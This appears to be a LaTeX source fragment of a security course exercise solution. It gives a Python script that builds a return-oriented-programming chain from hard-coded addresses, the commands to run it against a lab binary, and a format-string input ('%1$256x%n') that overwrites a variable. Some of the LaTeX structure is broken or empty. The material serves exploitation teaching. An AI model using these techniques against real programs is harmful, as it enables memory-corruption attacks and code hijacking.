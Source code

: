 \documentclass[a4paper,11pt]{article}
\newenvironment{solution}%
{\par{\noindent\small\textit{Solution:}}\vspace{-1ex}\begin{framed}}%
{\end{framed}\par}
\begin{document}
\begin{itemize}
\begin{solution}
	  \begin{drawstack}
		    
		  \startframe
		    
		  \startframe
		    
		    
		  \startframe
		    
		    
		  \startframe
		    
		  \startframe
		    
		  \startframe
	  \end{drawstack}
\end{solution}
  \fi

  \item What is the final command that you used to successfully run this
  exploit?

  \ifsolution
  \begin{solution}

	  This was the script used to generate the rop chain:

\begin{lstlisting}
print_address='\xa0\x83\x04\x08'
one_pop='\x8d\x83\x04\x08'
two_pop='\xfa\x86\x04\x08'
obj_helpstr='\x38\xa0\x04\x08'
obj_test='\x30\xa0\x04\x08'
print_test_address='\x36\x85\x04\x08'
exit_address='\xd0\xd3\xe0\xb7'

print('a'*20 + print_address + two_pop + obj_helpstr + obj_test + print_test_address + one_pop + obj_test + exit_address)
\end{lstlisting}

	Then, to execute it, just run:
  \begin{lstlisting}
$ python exploit.py > exploit
$ ./rop $(cat exploit)
  \end{lstlisting}


	  Alternatively, one can also directly call
	  \begin{lstlisting}
$ ./rop $(printf "aaaaaaaaaaaaaaaaaaaa\xa0\x83\x04\x08\xfa\x86\x04\x08\x38\xa0\x04\x08\x30\xa0\x04\x08\x36\x85\x04\x08\x8d\x83\x04\x08\x30\xa0\x04\x08\xd0\xd3\xe0\xb7")
	\end{lstlisting}

After that, you need to provide \t{"\%1\$256x\%n"} as runtime input parameter to write value 256 in variable \t{test}.



\end{solution}
  \fi
\end{itemize}
\end{document}
